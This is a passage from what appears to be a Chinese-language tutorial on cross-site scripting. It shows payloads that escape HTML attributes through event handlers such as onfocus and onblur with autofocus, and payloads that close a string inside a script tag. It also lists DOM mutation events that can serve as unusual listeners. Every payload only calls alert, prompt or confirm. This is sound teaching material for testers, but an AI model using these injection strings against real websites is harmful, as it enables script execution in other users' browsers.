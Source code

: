 ```
" autofocus onfocus=alert(1)// 
```

同样还有很多其他的 payload：

```
"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa=" 
```

#### 输入在 script 标签中

例如：

```
<script>
Var x="Input";
</script> 
```

可控位置在 Input，可以闭合 script 标签插入代码，但是同样我们仅仅闭合双引号就可以执行 js 代码了

```
";alert(1)// 
```

最终结果就是

```
<script>
Var x="";alert(1)//
</script> 
```

#### 非常规的事件监听

例如：

```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))// 
```

下面是一些相同的类：

```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified 
```

